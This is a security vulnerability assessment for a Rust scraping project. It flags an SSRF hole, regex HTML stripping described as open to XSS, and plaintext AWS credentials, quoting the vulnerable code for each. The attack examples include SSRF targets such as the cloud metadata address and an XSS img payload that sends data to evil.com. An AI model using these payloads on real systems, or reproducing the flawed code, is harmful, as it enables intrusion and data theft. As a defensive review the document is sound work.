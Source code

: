# Security Vulnerability Assessment & Remediation Plan

## 🔴 Critical Security Vulnerabilities

### 1. Server-Side Request Forgery (SSRF) - CRITICAL

**Location**: `core/src/lib.rs:16`

**Issue**: The `fetch_url` function accepts any URL without validation, allowing potential SSRF attacks against internal services.

```rust
// ❌ VULNERABLE CODE
pub async fn fetch_url(url: &str) -> Result<Bytes> {
    let uri: Uri = url.parse()?;  // No validation!
    let client: Client<HttpConnector> = Client::new();
    let resp = client.get(uri).await?;
    // ...
}
```

**Attack Scenarios**:
- Access internal services: `http://localhost:8080/admin`
- Scan internal networks: `http://192.168.1.1/`
- Access cloud metadata: `http://169.254.169.254/latest/meta-data/`

**Solution**: Implement comprehensive URL validation

### 2. HTML Injection/XSS in Content Extraction - HIGH

**Location**: `scrapers/src/extractors.rs:10`

**Issue**: Basic regex-based HTML stripping is insufficient and vulnerable to XSS attacks.

```rust
// ❌ VULNERABLE CODE
let text = regex::Regex::new(r"<[^>]*>")
    .unwrap()
    .replace_all(&html, " ");
```

**Attack Scenarios**:
- Malicious scripts: `<script>alert('xss')</script>`
- Data exfiltration: `<img src="http://evil.com/steal?data=" onerror="...">`

### 3. Credential Exposure - HIGH

**Location**: `storage/src/lib.rs:49`

**Issue**: AWS credentials stored in plain text configuration files.

```rust
// ❌ VULNERABLE CODE
pub struct S3Config {
    pub access_key_id: String,      // Plain text!
    pub secret_access_key: String,  // Plain text!
}
```
